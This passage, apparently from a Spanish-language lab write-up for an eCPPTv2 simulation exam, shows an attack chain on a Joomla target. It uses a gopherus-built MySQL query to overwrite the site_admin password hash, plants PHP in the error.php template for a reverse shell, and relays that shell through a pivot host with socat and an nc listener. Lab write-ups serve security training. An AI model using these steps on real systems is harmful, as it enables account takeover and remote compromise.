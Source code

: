 La contraseña del admin está hasheada y no se pudo crackear, sin embargo, se puede crear una query para actualizar la tabla y cambiar la contraseña del usuario “site_admin”.

Primero se hasheará la nueva contraseña:

```bash
echo -n "dancer" | md5sum
```

Ahora se crea la query:

```bash
gopherus --exploit mysql

Give query to execute:
	# Actualizar datos de una columna
	USE joomla; UPDATE joomla_users SET password="6b19beeaedade171ecc320ddd87f7ae6"
	WHERE username="site_admin";
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 48.png)

El sitio web tiene expuesto el portal de logueo para administradores “/administrator/index.php” por lo que ahora se podrá acceder al panel administrativo con las nuevas credenciales.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 49.png)

Para ganar acceso a la máquina, hay que ir a “Templates/Templates/Seleccionar un template”, se mostrarán varios archivos PHP, en este caso se aprovechará del “error.php”, este se ejecutará cuando se genere un error en la web.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 50.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 51.png)

Se insertará código PHP para que cuando se genere un error, se envíe una reverse shell a la máquina del atacante.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 52.png)

De primeras no va a llegar por lo que se utiliza socat para que la máquina Aragog reciba esta reverse shell por la interfaz 1010 y la reenvíe a la máquina del atacante al puerto 4646

```bash
# En la máquina Aragog
./socat TCP-LISTEN:1010 TCP:192.168.0.104:4646

# En la máquina del atacante
nc -nlvp 4646
```

Ahora se genera un error, por ejemplo, haciendo una petición a la dirección: http://20.20.20.5/joomla/index.php/<>

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 53.png)
